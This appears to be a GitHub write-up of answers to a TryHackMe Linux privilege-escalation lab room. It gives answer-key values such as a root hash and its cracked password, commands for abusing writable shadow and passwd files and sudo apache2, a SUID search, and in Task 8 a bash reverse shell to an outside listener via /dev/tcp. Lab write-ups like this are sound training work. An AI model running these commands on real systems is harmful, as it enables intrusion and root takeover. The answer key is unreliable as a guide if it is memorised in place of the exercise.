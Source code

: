# Linux PrivEsc

* IP = 10.10.163.8
* <a href="https://tryhackme.com/room/linuxprivesc">Room Link</a>

## Task 1:

1. Deploy the machine and login to the "user" account using SSH.<br>
*Ans-No Answer Needed*

2. Run the "id" command. What is the result?<br>
**Ans-uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)**

## Task 2(Service Exploits):

1. Read Above<br>
*No Answers Needed*

## Task 3(Readable /etc/shadow):

1. What is the root user's password hash?<br>
**Ans-$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0**

2. What hashing algorithm was used to produce the root user's password hash?<br>
**Ans-sha512crypt**

3. What is the root user's password?<br>
**Ans-password123**

## Task 4(Writable /etc/shadow):

```bash
mkpasswd -m sha-512 newpasswordhere
```
1. Read Above<br>
*No Answers Needed*

## Task 5(Writable /etc/passwd):

```bash
openssl passwd newpasswordhere
su root
```

1. Run the "id" command as the newroot user. What is the result?<br>
**Ans-uid=0(root) gid=0(root) groups=0(root)**

## Task 6( Sudo - Shell Escape Sequences):

1. How many programs is "user" allowed to run via sudo?<br>
**Ans-11**

2. One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?<br>
**Ans-apache2**

3. Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.<br>
*No Answers Needed*
```bash
sudo apache2 -f /etc/shadow
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```
* Now crack the hash

## Task 7(Sudo - Environment Variables):

1. Read and follow along with the above.<br>
*No Answers Needed*

## Task 8(Cron Jobs - File Permissions):

1. Read Above<br>
*No Answers Needed*
* Privesc using bash and a listener:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.4.50.128/4444 0>&1
```

## Task 9(Cron Jobs - PATH Environment Variable):

1. What is the value of the PATH variable in /etc/crontab?<br>
**Ans-/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin**

## Task 10(Cron Jobs - Wildcards):

1. Read Above<br>
*No Answers Needed*

## Task 11(SUID / SGID Executables - Known Exploits):

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
1. Read Above<br>
*No Answers Needed*

## Task 12(SUID / SGID Executables - Shared Object Injection):

1. Read Above<br>
*No Answers Needed*

## Task 13(SUID / SGID Executables - Environment Variables):

1.Read Above<br>
*No Answers Needed*

## Task 14(SUID / SGID Executables - Abusing Shell Features (/#1)):

1. Read Above<br>
*No Answers Needed*

## Task 15(SUID / SGID Executables - Abusing Shell Features (/#2)):

1. Read Above<br>
*No Answers Needed*

## Task 16(Passwords & Keys - History Files):

1. What is the full mysql command the user executed?<br>
**Ans-mysql -h somehost.local -uroot -ppassword123**

## Task 17(Passwords & Keys - Config Files):

1. What file did you find the root user's credentials in?<br>
**Ans-/etc/openvpn/auth.txt**

## Task 18(Passwords & Keys - SSH Keys):

1.Read Above<br>
*No Answers Needed*

## Task 19(NFS):

1. What is the name of the option that disables root squashing?<br>
**Ans-no_root_squash**

## Task 20(Kernel Exploits):

1. Read Above<br>
*No Answers Needed*

## Task 21:

1. Read Above<br>
*No Answers Needed*
